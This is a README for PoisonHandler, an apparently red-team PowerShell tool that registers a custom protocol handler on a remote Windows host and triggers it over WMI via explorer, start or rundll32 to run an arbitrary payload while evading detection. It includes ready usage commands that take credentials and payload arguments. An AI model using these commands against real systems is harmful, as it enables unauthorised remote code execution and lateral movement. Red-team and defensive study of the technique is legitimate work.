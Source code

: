 # PoisonHandler

lateral movement techniques that can be used during red team exercises.

# Execute-PoisonHandler.ps1

This technique is registering a protocol handler remotely and invoke it to execute arbitrary code on the remote host. The idea is to simply invoke `start handler://` to execute commands and evade detection.

This cmdlet create a protocol handler that will call your payload. Then execute it over `WMI` using `explorer.exe`.

the command that will be execute will look like the following one:

`cmd.exe /c start ms-browser://`

Where `ms-browser` is the custom handler you registered and will execute the payload you specified.

The default handler name is `ms-browser` but it can be set with the `-Handler` switch 

The handler can also be executed through `rundll32` using the following command `rundll32 url.dll,FileProtocolHandler`

```
Usage:

module-import .\Execute-PoisonHandler.ps1; Execute-PoisonHandler -ComputerName host -Payload "command to run"
module-import .\Execute-PoisonHandler.ps1; Execute-PoisonHandler -ComputerName host -Payload "command to run" -Handler ms-handler-name 
module-import .\Execute-PoisonHandler.ps1; Execute-PoisonHandler -ComputerName host -Payload "command to run" -Username MrUn1k0d3r -Password Password
module-import .\Execute-PoisonHandler.ps1; Execute-PoisonHandler -ComputerName host -Payload "command to run" -Username MrUn1k0d3r -Password Password -UseRunDLL32 True
module-import .\Execute-PoisonHandler.ps1; Execute-PoisonHandler -ComputerName host -Payload "command to run" -Username MrUn1k0d3r -Password Password -RemoteCommand "custom command to run the handler"
```

The `-RemoteCommand` switch can be used to specify the remote command used. the handler name will be appended at the end automatically.

# Command that can be used

* rundll32 url.dll,FileProtocolHandler
* rundll32 url.dll,OpenURL
* explorer
* start

# To do 
* add more way to execute the protocol handler

# Credit
Mr.Un1k0d3r RingZer0 Team

Tazz0 RingZer0 Team
